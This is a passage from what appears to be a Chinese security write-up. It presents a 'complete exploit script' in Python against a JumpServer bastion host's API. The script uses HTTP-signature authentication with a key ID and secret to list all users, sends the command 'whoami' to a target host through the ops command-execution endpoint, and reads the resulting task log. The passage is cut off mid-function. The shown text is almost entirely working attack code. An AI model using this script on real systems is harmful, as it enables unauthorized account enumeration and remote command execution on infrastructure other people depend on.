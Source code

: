     response = requests.get(url, auth=auth, headers=headers)  
    print(response.text)

`

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/dd608644-3e54-43b8-bec3-dcc021e2d538.png?raw=true)

完整的利用脚本如下：  

`# Python 示例  
# pip install requests drf-httpsig  
import requests, datetime, json  
from httpsig.requests_auth import HTTPSignatureAuth

def get_auth(KeyID, SecretID):  
    signature_headers = ['(request-target)', 'accept', 'date']  
    auth = HTTPSignatureAuth(key_id=KeyID, secret=SecretID, algorithm='hmac-sha256', headers=signature_headers)  
    return auth

def get_user_info(jms_url, auth):  
    url = jms_url + '/api/v1/users/users/'  
    gmt_form = '%a, %d %b %Y %H:%M:%S GMT'  
    headers = {  
        'Accept': 'application/json',  
        'X-JMS-ORG': '00000000-0000-0000-0000-000000000002',  
        'Date': datetime.datetime.utcnow().strftime(gmt_form)  
    }

    response = requests.get(url, auth=auth, headers=headers)  
    print(response.text)

def post_ops_command_executions(jms_url, auth):  
    url = jms_url + '/api/v1/ops/command-executions/'  
    gmt_form = '%a, %d %b %Y %H:%M:%S GMT'  
    headers = {  
        'Accept': 'application/json',  
        'X-JMS-ORG': '00000000-0000-0000-0000-000000000002',  
        'Date': datetime.datetime.utcnow().strftime(gmt_form)  
    }

    data = {"hosts":["fdfafb91-7b0a-425a-b250-56599bfc761b"],"run_as":"973320fd-6f06-4f59-8758-8ee52b6f7283","command":"whoami"}

    response = requests.post(url, auth=auth, headers=headers, data=data)  
    print(response.text)

def get_task_log(jms_url, auth):  
    url = jms_url + '/api/v1/ops/celery/task/e70ce2ab-1831-46d0-a4d1-ecc968dce298/log/'  
    gmt_form = '%a, %d %b %Y %H:%M:%S GMT'  
    headers = {  
        'Accept': 'application/json',  
        'X-JMS-ORG': '00000000-0000-0000-0000-000000000002',  
        'Date': datetime.datetime.utcnow().strftime(gmt_form)  
    }
